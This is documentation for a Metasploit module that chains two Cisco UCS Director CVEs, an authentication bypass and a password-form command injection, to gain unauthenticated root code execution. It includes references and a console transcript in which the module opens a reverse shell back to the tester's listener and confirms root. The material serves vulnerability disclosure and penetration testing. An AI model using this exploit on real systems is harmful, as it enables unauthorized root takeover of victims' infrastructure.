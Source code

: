 ## Introduction

The Cisco UCS Director virtual appliance contains two flaws that can be combined
and abused by an attacker to achieve remote code execution as root.

The first one, CVE-2019-1937, is an authentication bypass, that allows the
attacker to authenticate as an administrator.

The second one, CVE-2019-1936, is a command injection in a password change form,
that allows the attacker to inject commands that will execute as root.

This module combines both vulnerabilities to achieve the unauthenticated command
injection as root.
It has been tested with Cisco UCS Director virtual machines 6.6.0 and 6.7.0.
Note that Cisco also mentions in their advisory that their IMC Supervisor and
UCS Director Express are also affected by these vulnerabilities, but this module
was not tested with those products.


## Author and discoverer

Pedro Ribeiro (pedrib@gmail.com) from Agile Information Security


## References

https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20190821-imcs-ucs-authby
https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20190821-imcs-ucs-cmdinj
FULL_DISC
https://raw.githubusercontent.com/pedrib/PoC/master/advisories/cisco-ucs-rce.txt


## Usage

Setup RHOST, LHOST, LPORT and run it!

```
msf5 exploit(linux/ssh/cisco_ucs_scpuser) > use exploit/linux/http/cisco_ucs_rce
msf5 exploit(linux/http/cisco_ucs_rce) > set rhost 10.9.8.121
rhost => 10.9.8.121
msf5 exploit(linux/http/cisco_ucs_rce) > set lhost 10.9.8.1
lhost => 10.9.8.1
msf5 exploit(linux/http/cisco_ucs_rce) > run

[*] Started reverse TCP handler on 10.9.8.1:4444
[+] 10.9.8.121:443 - Successfully bypassed auth and got our admin JSESSIONID cookie!
[+] 10.9.8.121:443 - Shelly is here, press ENTER to start playing with her!
[*] Command shell session 2 opened (10.9.8.1:4444 -> 10.9.8.121:34778) at 2019-08-29 22:28:01 +0700

[root@localhost inframgr]# whoami
whoami
root
[root@localhost inframgr]# ^C
Abort session 2? [y/N]  y
""

[*] 10.9.8.121 - Command shell session 2 closed.  Reason: User exit
msf5 exploit(linux/http/cisco_ucs_rce) >
```
